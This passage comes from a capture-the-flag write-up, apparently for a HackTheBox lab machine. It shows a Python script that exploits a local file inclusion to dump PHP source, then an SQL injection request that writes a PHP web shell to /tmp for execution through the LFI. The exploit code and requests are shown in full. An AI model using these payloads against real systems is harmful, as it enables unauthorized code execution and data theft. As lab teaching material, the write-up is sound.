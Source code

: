 ```python
    'payroll',
    'position',
    'topbar',
    'attendance',
    'site_settings',
    'admin_class',
    'manage_user',
    'manage_attendance',
    'view_attendance',
    'manage_employee',
    'view_employee',
    'voting',
    'manage_payroll',
]


cookies = {'PHPSESSID': '4fkg0j3pttkh29sqcc1jnct07g'}
for file in files:
    url = f'http://preprod-payroll.trick.htb/index.php?page=php://filter/convert.base64-encode/resource={file}'
    response = requests.get(url, cookies=cookies)

    soup = BeautifulSoup(response.text, 'html.parser')
    main_div = soup.find_all(id='view-panel')

    b64 = main_div[0].text.strip()
    php_code = str(base64.urlsafe_b64decode(b64), 'utf-8')

    file_name = f'{file}.php'
    file = open(file_name, "w")
    file.write(php_code)
    file.close()
```

I ran the script and looked at all the files it extracted. The `site_settings` page looked interesting. It allowed uploading an image. So I thought I could use it to upload a PHP file, then use the LFI vulnerability to execute the code. But the upload failed. The target folder was not writeable.

I kept looking at the extracted PHP file. And I kept seeing SQL injection all over the place. After some time, I realised I could use this to write a file on disk with `SELECT INTO OUTFILE`. I could then load and execute that file with the LFI.

I used the view employee functionallity to perform the injection. I experimented with the page a little bit to read some data. Then used it to write some PHP code in a file.


```
GET /view_employee.php?id=90 UNION Select 1, '<?php $cmd=$_GET["cmd"]; echo `$cmd`; ?>', 3, 4, 5, 6, 7, 8, 9, 10 Into outfile '/tmp/rce.php' HTTP/1.1
Host: preprod-payroll.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://preprod-payroll.trick.htb/index.php?page=employee
Cookie: PHPSESSID=4fkg0j3pttkh29sqcc1jnct07g
```
